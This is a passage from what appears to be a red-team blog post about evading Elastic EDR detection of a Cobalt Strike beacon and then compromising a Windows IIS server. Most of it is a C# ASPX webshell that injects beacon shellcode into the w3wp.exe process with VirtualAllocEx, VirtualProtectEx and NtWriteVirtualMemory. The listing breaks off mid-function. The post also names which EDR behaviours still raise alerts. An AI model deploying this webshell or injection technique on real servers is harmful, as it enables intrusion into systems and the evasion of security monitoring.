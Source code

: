 At this point, Elastic EDR should not detect the Cobalt Strike Reflective DLL as `Windows.Trojan.CobaltStrike`.

However, Elastic EDR will still alert if malicious bahaviour is detected:

- Access to LSASS process from unbacked memory
- DLL loading from unbacked memory
- …

Now we have a stealthier beacon, we can start to compromise the Windows server. 

## Webshell

As the goal is to get a proper access to the Windows machine, I will try to get a CobaltStrike beacon without executing OS command.

To do so, I crafted a C# web page which will inject the Cobalt Strike beacon into the current IIS process `w3wp.exe`.

```c#
<%@ Page Language="c#"%>
<%@ Import Namespace="System" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.Threading.Tasks" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Collections.Generic" %>
<%@ Import Namespace="System.Linq" %>
<%@ Import Namespace="System.Text" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>

<script runat="server">

    /*
	    Flags and functions import
	    ...
    */

    
    public string ServerSideFunction()
    {
       
        byte[] data = new byte[REPLACE_ME] { REPLACE_ME };

        IntPtr pHandle = (IntPtr)(-1);
        if (pHandle == IntPtr.Zero)
            return "OpenProcess failed " + Marshal.GetLastWin32Error();
        IntPtr addr = VirtualAllocEx(pHandle, IntPtr.Zero, (uint)data.Length, AllocationType.Commit, AllocationProtect.PAGE_READONLY);
        if (addr == IntPtr.Zero)
            return "VirtualAllocEx failed";
        
        uint lpflOldProtect = 0;
        bool res = false;

        res = VirtualProtectEx(pHandle, addr, (uint)data.Length, 0x00000004, out lpflOldProtect);
        if (res == false)
            return "VirtualProtectEx RW failed";
        IntPtr sc = Marshal.AllocHGlobal(data.Length);
        if (sc == IntPtr.Zero)
            return "AllocHGlobal failed";
        RtlZeroMemory(sc, data.Length);

        UInt32 getsize = 0;
        NTSTATUS ntstatus = NtWriteVirtualMemory(pHandle, addr, data, (uint)data.Length, ref getsize);
        if (getsize == 0)
```